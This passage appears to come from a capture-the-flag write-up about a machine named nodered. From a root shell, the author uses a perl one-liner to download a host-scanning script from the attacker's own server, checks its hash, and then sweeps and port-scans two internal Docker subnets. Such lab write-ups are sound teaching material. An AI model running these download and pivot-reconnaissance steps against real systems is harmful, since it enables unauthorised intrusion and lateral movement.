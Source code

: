 ```bash
root@nodered:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://10.10.14.8:8181/scan_hosts.sh", "scan_hosts.sh");'
"http://10.10.14.8:8181/scan_hosts.sh", "scan_hosts.sh");'or(
```

To check if the transfer worked well, I ran md5sum on my local version and in the transfer one to see if the hashes match.

```bash
$ md5sum scan_hosts.sh 
153ad569ada63a2d3114cbd5b31cd08f  scan_hosts.sh
```

```bash
root@nodered:/tmp# md5sum scan_hosts.sh
md5sum scan_hosts.sh
153ad569ada63a2d3114cbd5b31cd08f  scan_hosts.sh
```

I then scan the 2 networks we see on this target.

```bash
root@nodered:/tmp# bash scan_hosts.sh 172.18.0
bash scan_hosts.sh 172.18.0

--- SCAN ON HOST 172.18.0.(1..255) ---
        [+] Active Host 172.18.0.2
        [+] Active Host 172.18.0.1
--- Finished scan ---

root@nodered:/tmp# bash scan_hosts.sh 172.19.0
bash scan_hosts.sh 172.19.0

--- SCAN ON HOST 172.19.0.(1..255) ---
        [+] Active Host 172.19.0.3
        [+] Active Host 172.19.0.4
        [+] Active Host 172.19.0.2
        [+] Active Host 172.19.0.1
--- Finished scan ---
```

To scan the port of the IPs, we could write a small script or use something small and already available like this [one here](https://github.com/xffsec/netscan).

```bash
root@nodered:/tmp# bash netscan.sh -P -t 172.19.0 -R 2-4 -r 1-10000
bash netscan.sh -P -t 172.19.0 -R 2-4 -r 1-10000

--- SCANNING PORTS ON EACH HOST - 172.19.0.2-4:1-10000 ---

[+] 172.19.0.2:6379
[+] 172.19.0.3:1880
[+] 172.19.0.4:80

--- Finished scan ---
```
